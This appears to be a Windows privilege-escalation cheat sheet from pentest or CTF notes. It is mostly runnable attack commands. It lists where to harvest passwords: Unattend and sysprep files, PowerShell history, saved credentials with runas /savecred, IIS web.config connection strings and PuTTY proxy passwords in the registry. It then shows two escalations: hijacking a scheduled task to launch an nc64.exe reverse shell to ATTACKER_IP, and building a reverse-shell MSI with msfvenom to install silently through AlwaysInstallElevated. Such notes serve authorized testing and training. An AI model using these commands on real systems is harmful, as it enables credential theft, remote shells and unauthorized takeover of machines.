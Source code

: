 # Windows

## Harvesting passwords from usual spots

Here can be passwords stored
<pre>
    C:\Unattend.xml
    C:\Windows\Panther\Unattend.xml
    C:\Windows\Panther\Unattend\Unattend.xml
    C:\Windows\system32\sysprep.inf
    C:\Windows\system32\sysprep\sysprep.xml
</pre>

### Powershell history
It can be stored in powershell history

use cmd.exe to execute this command
<pre>type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt</pre>

if you want to use powershell change `%userprofile%` to `$Env:userprofile` <br>

### Saved Windows Credentials
Here can be saved credentials, we can't see the password but we can use it to run cmd with user's privilage
<pre>
cmdkey /list

runas /savecred /user:admin cmd.exe</pre>

### IIS Configuration
Internet Information Services (IIS) is the default web server on Windows installations. The configuration of websites on IIS is stored in a file called web.config and can store passwords for databases or configured authentication mechanisms. Depending on the installed version of IIS, we can find web.config in one of the following locations:<br>

<pre>

    C:\inetpub\wwwroot\web.config
    C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config

    type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
    type C:\inetpub\wwwroot\web.config | findstr connectionString
</pre>

### PuTTY
PuTTY is an SSH client commonly found on Windows systems. Instead of having to specify a connection's parameters every single time, users can store sessions where the IP, user and other configurations can be stored for later use. While PuTTY won't allow users to store their SSH password, it will store proxy configurations that include cleartext authentication credentials.

To retrieve the stored proxy credentials, you can search under the following registry key for ProxyPassword with the following command:
`reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s`

![putty](img/putty.png)

## quick escalation

### Scheduled Tasks

Run `schtasks` for list of sheduled tasks <br>
For details about task run `schtasks /query /tn TASK-NAME /fo list /v`<br>

To check if we the permissions we can rut `icacls FILE`<br>

if you can locate nc64.exe file you can get reverse shell
<pre>
echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > c:\TASK

nc -lvp 4444
</pre>

Than run that task manualy

`schtasks /run /tn TASK`

### AlwaysInstallElevated

These two registry needs to be set 
<pre>
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer

reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
</pre>

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_MACHINE_IP LPORT=LOCAL_PORT -f msi -o malicious.msi`

than run on target system 

`msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi`

